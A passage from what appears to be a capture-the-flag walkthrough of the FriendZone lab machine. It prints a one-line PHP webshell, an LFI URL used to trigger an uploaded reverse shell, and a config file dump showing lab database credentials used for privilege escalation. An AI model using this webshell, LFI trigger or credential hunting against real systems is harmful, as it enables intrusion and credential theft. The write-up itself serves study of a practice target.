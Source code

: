 ![](https://i.imgur.com/DfwKvjn.png)

- You're seeing the shortest possible webshell here **<?=`$_GET[1]`?>**
- Lol but they're appending `.php` to it so we can't execute commands in the parameters, I forgot :(
- Let's a direct revshell 

![](https://i.imgur.com/1JWwU6g.png)

- After uploading trigger the shell using LFI
- `https://administrator1.friendzone.red/dashboard.php?image_id=b.png&pagename=/etc/Development/php-reverse-shell`
- It appends `.php` to it, so it gets executed and we got shell!!
- Now you can submit the user.txt located in `/home/friend` folder

## PRIVESC

- We can get the creds for friend user in `/var/www/mysql_data.conf` file

<br>

```js
www-data@FriendZone:/var/www$ cat mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```

<br>

![](https://i.imgur.com/FPAp9oD.png)

- Running pspy64 reveals there's a python script running as root

<br>

```py
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```
